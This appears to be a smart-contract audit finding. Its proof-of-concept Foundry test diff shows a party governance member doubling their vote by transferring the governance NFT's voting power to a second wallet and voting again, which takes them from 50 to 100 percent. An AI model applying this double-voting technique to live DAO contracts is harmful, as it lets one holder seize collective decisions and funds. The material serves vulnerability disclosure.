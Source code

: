 ## Proof Of Concept
This diff shows how a user with a voting power of 50/100 gets a voting power of 100/100 by transferring the NFT to a second wallet that he owns and voting from that one:
```diff
--- a/sol-tests/party/PartyGovernanceUnit.t.sol
+++ b/sol-tests/party/PartyGovernanceUnit.t.sol
@@ -762,6 +762,7 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         TestablePartyGovernance gov =
             _createGovernance(100e18, preciousTokens, preciousTokenIds);
         address undelegatedVoter = _randomAddress();
+        address recipient = _randomAddress();
         // undelegatedVoter has 50/100 intrinsic VP (delegated to no one/self)
         gov.rawAdjustVotingPower(undelegatedVoter, 50e18, address(0));
 
@@ -772,38 +773,13 @@ contract PartyGovernanceUnitTest is Test, TestUtils {
         // Undelegated voter submits proposal.
         vm.prank(undelegatedVoter);
         assertEq(gov.propose(proposal, 0), proposalId);
-
-        // Try to execute proposal (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
-
-        // Skip past execution delay.
-        skip(defaultGovernanceOpts.executionDelay);
-        // Try again (fail).
-        vm.expectRevert(abi.encodeWithSelector(
-            PartyGovernance.BadProposalStatusError.selector,
-            PartyGovernance.ProposalStatus.Voting
-        ));
-        vm.prank(undelegatedVoter);
-        gov.execute(
-            proposalId,
-            proposal,
-            preciousTokens,
-            preciousTokenIds,
-            "",
-            ""
-        );
+        (, PartyGovernance.ProposalStateValues memory valuesPrev) = gov.getProposalStateInfo(proposalId);
+        assertEq(valuesPrev.votes, 50e18);
+        gov.transferVotingPower(undelegatedVoter, recipient, 50e18); //Simulate NFT transfer
+        vm.prank(recipient);
+        gov.accept(proposalId, 0);
+        (, PartyGovernance.ProposalStateValues memory valuesAfter) = gov.getProposalStateInfo(proposalId);
+        assertEq(valuesAfter.votes, 100e18);
     }
```
